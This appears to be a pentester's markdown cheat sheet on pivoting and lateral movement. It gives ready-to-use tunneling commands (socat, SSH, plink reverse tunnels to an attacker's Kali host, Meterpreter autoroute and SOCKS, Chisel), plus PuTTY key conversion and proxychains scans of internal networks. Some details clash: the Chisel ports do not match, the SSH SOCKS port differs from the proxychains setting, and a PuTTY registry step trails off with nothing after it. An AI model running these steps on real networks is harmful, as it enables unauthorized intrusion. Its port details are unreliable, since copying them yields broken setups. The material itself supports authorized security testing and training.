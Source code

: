# Pivoting & Lateral Movement

Sometimes we just can't get access to the thing that we need to exploit.

When that happens we need to know the different ways in which we can get around this little hurdle, as there is always a way.

[The question on StackExchange that spawned this post](https://unix.stackexchange.com/questions/293304/using-netcat-for-port-forwarding)

## SOCAT

```bash
socat tcp-listen:8001,reuseaddr,fork tcp:localhost:8000
```

## Python

Not something you want to code yourself with any kind of time contraints, but it's totally possible.

Best choice is to use an existing library like [sshtunnel](https://pypi.org/project/sshtunnel/) which you can use to do things like the following (which forwards a Vagrant server to the local MySQL port):

```python
from sshtunnel import open_tunnel
from time import sleep

with open_tunnel(
    ('localhost', 2222),
    ssh_username="vagrant",
    ssh_password="vagrant",
    remote_bind_address=('127.0.0.1', 3306)
) as server:

    print(server.local_bind_port)
    while True:
        # press Ctrl-C for stopping
        sleep(1)

print('FINISH!')
```

## Putty

Basically SSH for Windows. Usually the most interaction we'll have with this is when we find one of it's keys (.ppk) laying around on a machine.

With that being said...

Convert Putty key to SSH key:

```bash
puttygen id_dsa.ppk -O private-openssh -o id_dsa

puttygen id_dsa.ppk -O public-openssh -o id_dsa.pub
```

Sometimes Putty also has passwords left in the registry:

## Plink

For this to work we need to make sure SSH is turned on. 

```bash
service ssh restart
```

The on the target machine we can do the following:

```bash
.\plink.exe root@kali_ip -R KALI_PORT:IP_OF_TARGET_MACHINE:TARGET_PORT
```

(Could come in handy if we have SMB creds for an admin but we can't access SMB remotely)

## Metasploit

In a `meterpreter` session:

```bash
portfwd add -l LOCAL_PORT -p DESTINATION_PORT -r TARGET_IP
```

```bash
run autoroute -s 10.1.1.0/24
run autoroute -s 10.2.2.0/24
```

```bash
use auxiliary/server/socks4a
set SRVHOST 127.0.0.1
exploit -j

```

Now on our host machine we can scan the IT network:

```bash
vim /etc/proxychains.conf 
...
socks4 127.0.0.1 1080
```

```bash
proxychains nmap -sT -v -Pn 10.2.2.224
```

## Chisel

Chisel is an awesome tool that is more than capable of turning what feels like a lost cause into a system own.

[Github Link for Chisel](https://github.com/jpillora/chisel)

On the host:

```bash
chisel(.exe) client 10.10.14.3:1338 R:1234:127.0.0.1:1234
```

That will setup a connection to 1337, which will then forward port 1234 to localhost:

```bash
chisel(.exe) server -p 1337 -reverse -v
```

## SSH

Local Foward:

```bash
ssh -L 80:127.0.0.1:80 someserver@someip
```

### Remote Forward

```bash
ssh -R 8080:localhost:80 someserver@someip
```

### Dynamic tunneling

```bash
ssh -D 9000 sean@10.11.1.251
```

```bash
vim /etc/proxychains.conf 

socks4 127.0.0.1 1080
```

```bash
proxychains nmap -sT -v -Pn 10.2.2.224
```

This creates a dynamic tunnel over port 9000 using SOCKS(4a)
